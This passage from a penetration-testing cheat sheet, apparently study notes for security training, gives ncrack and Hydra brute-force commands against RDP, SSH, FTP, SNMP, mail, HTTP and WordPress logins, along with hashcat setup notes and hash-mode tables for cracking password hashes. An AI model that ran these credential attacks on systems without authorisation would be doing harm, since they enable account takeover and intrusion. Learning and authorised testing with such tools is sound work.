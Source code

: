         -   ncrack (from the makers of nmap) can brute force RDP  
            `ncrack -vv --user offsec -P password-file.txt rdp://$ip`

    -   Hydra

        -   Hydra brute force against SNMP  
            `hydra -P password-file.txt -v $ip snmp`

        -   Hydra FTP known user and password list  
            `hydra -t 1 -l admin -P /root/Desktop/password.lst -vV $ip ftp`

        -   Hydra SSH using list of users and passwords  
            `hydra -v -V -u -L users.txt -P passwords.txt -t 1 -u $ip ssh`

        -   Hydra SSH using a known password and a username list  
            `hydra -v -V -u -L users.txt -p "<known password>" -t 1 -u $ip ssh`

        -   Hydra SSH Against Known username on port 22
            `hydra $ip -s 22 ssh -l <user> -P big\_wordlist.txt`

        -   Hydra POP3 Brute Force  
            `hydra -l USERNAME -P /usr/share/wordlistsnmap.lst -f $ip pop3 -V`

        -   Hydra SMTP Brute Force  
            `hydra -P /usr/share/wordlistsnmap.lst $ip smtp -V`

        -   Hydra attack http get 401 login with a dictionary  
            `hydra -L ./webapp.txt -P ./webapp.txt $ip http-get /admin`
            
        -   Hydra attack Windows Remote Desktop with rockyou
            `hydra -t 1 -V -f -l administrator -P /usr/share/wordlists/rockyou.txt rdp://$ip`
            
        -   Hydra brute force a Wordpress admin login
            `hydra -l admin -P ./passwordlist.txt $ip -V http-form-post '/wp-login.php:log=^USER^&pwd=^PASS^&wp-submit=Log In&testcookie=1:S=Location'`

          

-   <span id="_bnmnt83v58wk" class="anchor"><span id="_Toc480741822" class="anchor"></span></span>Password Hash Attacks
    -------------------------------------------------------------------------------------------------------------------

    -   Online Password Cracking  
        [*https://crackstation.net/*](https://crackstation.net/)

    -   Hashcat
   Needed to install new drivers to get my GPU Cracking to work on the Kali linux VM and I also had to use the --force parameter.
apt-get install libhwloc-dev ocl-icd-dev ocl-icd-opencl-dev
and
apt-get install pocl-opencl-icd

   Cracking Linux Hashes - /etc/shadow file
   ```
   500 | md5crypt $1$, MD5(Unix)                          | Operating-Systems
   3200 | bcrypt $2*$, Blowfish(Unix)                      | Operating-Systems
   7400 | sha256crypt $5$, SHA256(Unix)                    | Operating-Systems
   1800 | sha512crypt $6$, SHA512(Unix)                    | Operating-Systems
   ```
   Cracking Windows Hashes
   ```
   3000 | LM                                               | Operating-Systems
   1000 | NTLM                                             | Operating-Systems
   ```
   Cracking Common Application Hashes
   ```
    900 | MD4                                              | Raw Hash
      0 | MD5                                              | Raw Hash
   5100 | Half MD5                                         | Raw Hash
    100 | SHA1                                             | Raw Hash
  10800 | SHA-384                                          | Raw Hash
   1400 | SHA-256                                          | Raw Hash
   ```